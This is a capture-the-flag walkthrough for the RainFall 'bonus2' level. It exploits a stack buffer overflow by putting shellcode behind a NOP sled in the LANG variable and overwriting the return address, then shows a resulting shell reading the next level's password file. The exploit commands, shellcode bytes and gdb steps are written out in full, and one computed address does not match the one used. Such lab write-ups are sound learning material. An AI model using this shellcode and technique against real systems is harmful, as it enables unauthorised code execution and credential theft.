 # bonus2 walkthrough

We can find an executable waiting for two inputs and print them by separating them with a space:

    bonus2@RainFall:~$ ./bonus2 
    bonus2@RainFall:~$ ./bonus2 bla
    bonus2@RainFall:~$ ./bonus2 bla bla
    Hello bla
    bonus2@RainFall:~$

So we enter 2 arguments to the program. Then it copies at most 40 bytes of argv[1] in a buffer, and at most 32 bytes of argv[2] in the same buffer at index 40 (right after argv[1]).
Ww can see that the program also checks the LANG env variable and sets a global variable to either 1 if LANG is equal to 'fi' or 2 if LANG is equal to 'nl'.
Then in greetuser it copies a message (different length depending on the language) in a 64 bytes buffer. And then concatenate to it our string given as a parameter.
Lets try to get the offset of eip with the differents possibles values of LANG with the pattern generator:

    LANG!=fi && LANG!=nl

    (gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
    Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

    Program received signal SIGSEGV, Segmentation fault.
    0x08006241 in ?? ()              // offset : ??

If we don't set LANG, our global variable is equal to 0. Then, the concatenation of "Hello " and our string given as parameter is made on our buffer but it's not long enought to overwrite eip.

    bonus2@RainFall:~$ export LANG=nl
    bonus2@RainFall:~$ gdb bonus2
    (gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

    Program received signal SIGSEGV, Segmentation fault.
    0x38614137 in ?? ()              // offset : 23

If LANG is either 'fi' or 'nl' and the parameter passed to greetuser() is long enough, we can overwrite the return address (eip).

Lets's build our exploit.

Firstly we'll need a shellcode, we can borrow it from level2:

    "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

Secondly we need to put our shellcode in env variable LANG:

    export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

Next we need to create templates for our args:

    argv[1] : padding (40 bytes)
    argv[2] : padding (18 or 23 bytes depends of LANG) + address inside NOP instructions (4 bytes)

To determine the address inside NOP instructions we need to find the start address of LANG with using gdb:

    b *main+125
    run $(python -c 'print "A"*40') bla
    x/20s ((char*)environ)

Finally we need some random value to reach an address inside NOP instructions

    bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
    (gdb) b *main+125
    (gdb) run $(python -c 'print "A"*40') bla
    (gdb) x/20s *((char**)environ)
    0xbffffeb4 + 50 (random value) = 0xbffffee6
    bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xa5\xfe\xff\xbf"')
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
    $ whoami
    bonus3
    $ cat /home/user/bonus3/.pass
    71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
